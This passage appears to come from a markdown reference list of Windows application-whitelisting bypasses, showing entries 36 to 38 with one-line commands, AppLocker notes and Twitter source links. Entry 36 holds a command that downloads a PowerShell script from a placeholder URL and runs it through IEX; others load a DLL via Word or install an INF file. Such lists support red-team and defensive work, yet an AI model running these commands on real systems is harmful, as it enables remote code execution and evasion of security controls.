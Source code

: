Requires admin: No  
Windows binary: Yes  
Bypasses AppLocker Default rules: ?  

Notes:

Links:
https://twitter.com/vector_sec/status/896049052642533376



## 36. SyncAppvPublishingServer.exe

`SyncAppvPublishingServer.exe "n;((New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX
`

Requires admin: No  
Windows binary: Yes  
Bypasses AppLocker Default rules: ?  

Notes:

Links:
https://twitter.com/monoxgas/status/895045566090010624



## 37. InfDefaultInstall.exe

`InfDefaultInstall.exe shady.inf`

Requires admin: ?  
Windows binary: Yes  
Bypasses AppLocker Default rules: ?  

Notes:

Links:
https://twitter.com/KyleHanslovan/status/911997635455852544
https://gist.github.com/KyleHanslovan/5e0f00d331984c1fb5be32c40f3b265a



## 38. Winword.exe

`winword.exe /l dllfile.dll`

Requires admin: No  
Windows binary: Yes  
Bypasses AppLocker Default rules: ?  

Notes:

Links:
https://twitter.com/subTee/status/884615369511636992


